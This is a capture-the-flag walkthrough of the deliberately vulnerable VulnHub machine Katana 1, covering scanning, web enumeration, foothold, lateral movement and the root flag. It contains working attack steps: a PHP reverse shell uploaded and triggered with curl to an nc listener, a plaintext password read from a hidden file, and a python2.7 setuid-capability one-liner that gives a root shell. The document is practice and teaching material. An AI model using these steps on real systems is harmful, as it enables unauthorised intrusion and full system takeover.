

# VulnHub > Katana 1

**About Release**

* Name: Katana: 1
* Date release: 13 May 2020
* Author: SunCSR Team
* Series: Katana
* Difficulty: Intermediate
* Tested: VMware Workstation 15.x Pro

**Description**

* Goal: Get the root shell and then obtain flag under `/root`.
* Warning: Be careful with "rabbit hole".

**Download**

* katana.zip (Size: 1.1 GB)
* Download: https://drive.google.com/file/d/1qUAH1fbX9BOu7Z25u8xSc87_dQH2KWDK/view?usp=sharing
* Download (Mirror): https://download.vulnhub.com/katana/katana.zip
* Download (Torrent): https://download.vulnhub.com/katana/katana.zip.torrent ([Magnet](magnet:?xt=urn:btih:C4E8ABA2426E3D8BF56FE5AF90820DE32B45CB44&dn=katana.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

# Services Enumeration

A Nmap full scan will discover many open ports:

~~~
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_ssl-date: 2020-10-02T05:32:56+00:00; -1s from scanner time.
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Katana X
8715/tcp open  http        nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
Service Info: Host: KATANA; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 59m59s, deviation: 2h00m00s, median: 0s
|_nbstat: NetBIOS name: KATANA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: katana
|   NetBIOS computer name: KATANA\x00
|   Domain name: \x00
|   FQDN: katana
|_  System time: 2020-10-02T01:32:53-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-10-02T05:32:53
|_  start_date: N/A
~~~

# FTP and Samba

Starting with FTP and Samba shares will be fast. FTP doesn't allow anonymous access and there are no public network shares.

# Web

Enumerating the web services with `gobuster` will reveal several locations, but many of them are rabbit holes.

Focusing on interesting resources, there is an interesting upload form available on port 8088:

~~~
kali@kali:~$ gobuster dir -k -u http://katana.box:8088/ -x htm,html,php,txt,bak,old,tar,zip,gz -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://katana.box:8088/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,bak,old,tar,htm,php,gz,html,zip
[+] Timeout:        10s
===============================================================
2020/10/02 07:52:32 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/blocked (Status: 301)
/cgi-bin (Status: 301)
/css (Status: 301)
/docs (Status: 301)
/error404.html (Status: 200)
/img (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/phpinfo.php (Status: 200)
/phpinfo.php (Status: 200)
/protected (Status: 301)
/upload.html (Status: 200) <---------- upload form
/upload.php (Status: 200)
===============================================================
2020/10/02 07:52:37 Finished
===============================================================
~~~

# Reverse shell

Let's upload a PHP reverse shell and start a listener locally (`rlwrap nc -nlvp 4444`):

We are provided with the remote file name: `katana_revshell.php`, but the file doesn't seem to be served by port 8088. Searching the remote file on other ports reveals that we can access it via port 8715. Browsing the following URL will spawn a reverse shell in our listener window:

~~~
curl http://katana.box:8715/katana_revshell.php
~~~

# Lateral move (www-data -> katana)

Searching for users in the `/home` directory will reveal the existence of a user named `katana`. Credentials are disclosed in a hidden `.ssh_passwd` file:

~~~
www-data@katana:/home/katana$ ls -la /home/katana
ls -la /home/katana
total 28
drwxr-xr-x 3 katana katana 4096 May 11 12:20 .
drwxr-xr-x 3 root   root   4096 May 11 09:33 ..
-rw-r--r-- 1 katana katana  220 May 11 09:33 .bash_logout
-rw-r--r-- 1 katana katana 3526 May 11 09:33 .bashrc
drwx------ 3 katana katana 4096 May 11 11:57 .gnupg
-rw-r--r-- 1 katana katana  807 May 11 09:33 .profile
-rw-r--r-- 1 root   root     19 May 11 11:52 .ssh_passwd
www-data@katana:/home/katana$ cat /home/katana/.ssh_passwd
cat /home/katana/.ssh_passwd
katana@katana12345
~~~

However, the connection as `katana` against the SSH service fails:

~~~
kali@kali:/data/katana/files$ sshpass -p "katana12345" ssh katana@katana.box
Permission denied, please try again.
~~~

Let's switch user instead:

~~~
www-data@katana:/home/katana$ su katana
su katana
Password: katana12345

katana@katana:~$ id
id
uid=1000(katana) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
~~~

# Privilege escalation

Running `linpeas.sh` on the target will reveal that python2.7 has suid capabilities:

~~~
katana@katana:/$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) confirms that we can take advantage of it to elevate our privileges:

~~~
katana@katana:/$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<c 'import os; os.setuid(0); os.system("/bin/bash")'
root@katana:/# id
id
uid=0(root) gid=1000(katana) groups=1000(katana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
~~~

# Root flag

Let's get the root flag:

~~~
root@katana:/# cd /root
cd /root
root@katana:/root# ls -la
ls -la
total 44
drwx------  4 root root 4096 May 11 12:04 .
drwxr-xr-x 18 root root 4096 May 11 09:31 ..
-rw-------  1 root root  563 May 11 12:09 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  3 root root 4096 May 11 11:39 .gnupg
drwxr-xr-x  3 root root 4096 May 11 09:54 .local
-rw-------  1 root root  155 May 11 10:48 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   22 May 11 12:04 root.txt
-rw-r--r--  1 root root   66 May 11 10:41 .selected_editor
-rw-r--r--  1 root root  209 May 11 10:52 .wget-hsts
root@katana:/root# cat root.txt
cat root.txt
{R00t_key_Katana_91!}
~~~
